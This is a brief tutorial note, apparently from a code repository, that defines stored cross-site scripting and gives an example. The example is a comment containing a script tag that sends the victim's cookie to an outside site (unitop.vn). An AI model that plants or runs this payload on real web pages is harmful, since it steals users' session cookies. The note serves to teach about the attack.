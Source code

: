 # Def: XSS is when hacker inject malicious scripts into web pages viewed by other users. These scripts can execute in the context of the user's browser, leading to a variety of harmful actions such as stealing cookies, session tokens, or other sensitive information, defacing websites, or redirecting users to malicious sites.

# Steps:
- Hacker inject script into database through form
- Other user access and is redirected to malicious websites or is prompted by sensitive infomation

# Example:
- The hacker use his account to inject script javascript to the system database by his comment in a post such as:
<script>
window.location = "https://unitop.vn?cookie=" + document.cookie;
 </script>

 - Other user access and redirect to this website and their cookie is stolen.